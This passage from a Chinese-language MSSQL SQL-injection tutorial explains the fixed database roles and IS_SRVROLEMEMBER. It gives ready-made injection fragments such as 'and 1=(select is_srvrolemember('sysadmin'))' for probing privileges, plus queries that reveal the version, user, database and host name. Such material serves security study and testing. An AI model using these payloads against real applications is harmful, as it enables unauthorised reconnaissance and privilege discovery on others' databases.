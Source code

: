 | 固定数据库角色名      | 描述                                                         |
| :-------------------- | :----------------------------------------------------------- |
| db_owner          | db_owner 固定数据库角色的成员可以执行数据库的所有配置和维护活动，还可以删除 SQL Server中的数据库。 （在 SQL 数据库 和 SQL 数据仓库中，某些维护活动需要服务器级别权限，并且不能由 db_owners执行。） |
| db_securityadmin  | db_securityadmin 固定数据库角色的成员可以仅修改自定义角色的角色成员资格、创建无登录名的用户和管理权限。 向此角色中添加主体可能会导致意外的权限升级。 |
| db_accessadmin    | db_accessadmin 固定数据库角色的成员可以为 Windows 登录名、Windows 组和 SQL Server 登录名添加或删除数据库访问权限。 |
| db_backupoperator | db_backupoperator 固定数据库角色的成员可以备份数据库。   |
| db_ddladmin       | db_ddladmin 固定数据库角色的成员可以在数据库中运行任何数据定义语言 (DDL) 命令。 |
| db_datawriter     | db_datawriter 固定数据库角色的成员可以在所有用户表中添加、删除或更改数据。 |
| db_datareader     | db_datareader 固定数据库角色的成员可以从所有用户表中读取所有数据。 |
| db_denydatawriter | db_denydatawriter 固定数据库角色的成员不能添加、修改或删除数据库内用户表中的任何数据。 |
| db_denydatareader | db_denydatareader 固定数据库角色的成员不能读取数据库内用户表中的任何数据。 |

我们可以用`IS_SRVROLEMEMBER`来判断服务器级别的固定角色

| 返回值 | 描述                                                 |
| :----- | :--------------------------------------------------- |
| 0      | login 不是 role 的成员。                             |
| 1      | login 是 role 的成员。                               |
| NULL   | role 或 login 无效，或者没有查看角色成员身份的权限。 |

构造语句

```mssql
and 1=(select is_srvrolemember('sysadmin'))

and 1=(select is_srvrolemember('serveradmin'))

and 1=(select is_srvrolemember('setupadmin'))

and 1=(select is_srvrolemember('securityadmin'))

and 1=(select is_srvrolemember('diskadmin'))

and 1=(select is_srvrolemember('bulkadmin'))
```

数据库级别的应用角色用`IS_MEMBER`函数判断

```mssql
SELECT IS_MEMBER('db_owner')
```

再来看一些基本信息

```mssql
SELECT @@version; //版本
SELECT user;		//用户
SELECT DB_NAME();	//当前数据库名，你可以用db_name(n)来遍历出所有的数据库
SELECT @@servername;	//主机名
```
